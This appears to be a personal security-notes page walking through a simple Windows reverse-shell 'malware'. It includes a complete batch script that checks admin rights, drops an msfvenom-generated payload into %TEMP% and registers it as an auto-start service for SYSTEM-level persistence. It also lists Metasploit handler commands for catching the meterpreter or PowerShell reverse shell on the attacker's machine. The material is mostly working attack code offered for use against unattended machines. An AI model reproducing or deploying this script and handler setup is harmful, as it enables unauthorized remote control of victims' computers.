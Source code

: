 # Reverse shell

In this section, I aim to experiment and provide a simple example of a "malware" that can be executed as an **Administrator** account on a target's Windows machine. For simplicity, I assume the weakest security scenario:

a. User is in the **Administrators** group on the machine

b. User left the machine unattended while being logged in

c. There is no anti-virus solutions (besides Windows defender) running on the machine

&#x20;The "malware" will simply provide a remote shell as the **SYSTEM** user.

> Note: the setup and techniques used in this example is EXTREMELY minimal, and OPSEC is not taken into account.

### Setup

The following outlines the root directory of the "malware" folder&#x20;

1. `rvshell.exe`

* Generated with msfvenom: meterpreter or reverse shell

2. `shell.cmd`

* To be executed as administrators&#x20;
  * GUI: Right-click -> "Run as administrator"

{% code title="shell.cmd" overflow="wrap" %}
```batch
REM Executes a C# script that returns a boolean value that indicates if the current user is in the "Adminstrators" group, before storing the value in the "ISADMIN" env variable
for /f "delims=" %%a in ('powershell.exe -NoProfile -Command "([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)"') do set ISADMIN=%%a

REM Echo the value of the "ISADMIN" env variable (for debugging purposes)
echo ISADMIN=%ISADMIN%

REM User is not an administrator: EXIT
if /i "%ISADMIN%"!="True" (
    echo User is NOT an administrator
    exit
    )

REM User is an administrator: continue next step
set RVSHELL_EXE=%TEMP%\rvshell.exe

REM Copy reverse shell payload to a temp folder
copy /y rvshell.exe %RVSHELL_EXE%

REM Create and start a service with sc.exe

sc.exe create "rvshell" binPath= "%RVSHELL_EXE%" start= auto
sc.exe start "rvshell"

REM EXIT current prompt
exit
```
{% endcode %}

a. `([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)`&#x20;

* A C# one-liner which output a boolean value that indicates if the current user is in the "**Administrators**" group

After executing the `shell.cmd` file: Right-click -> "Run as administrator", we will be prompted to allow  administrative permissions to run the script, to which we can simply accept to proceed.&#x20;

Notice that we are not required to authenticate (provide password or any other credentials), as our currently logged in user is an administrator (in the "**Administrators**" group).

#### Catch the shell

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ msfconsole
msf6> set exploit/multi/handler

# set payload accordingly
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set payload windows/x64/powershell_reverse_tcp

msf6> set lhost <lhsot>
msf6> set lport <lport>
msf6> run
```
{% endcode %}

### Resources

1. **Powershell.exe**

{% embed url="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1" %}

2. `set` command

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1" %}



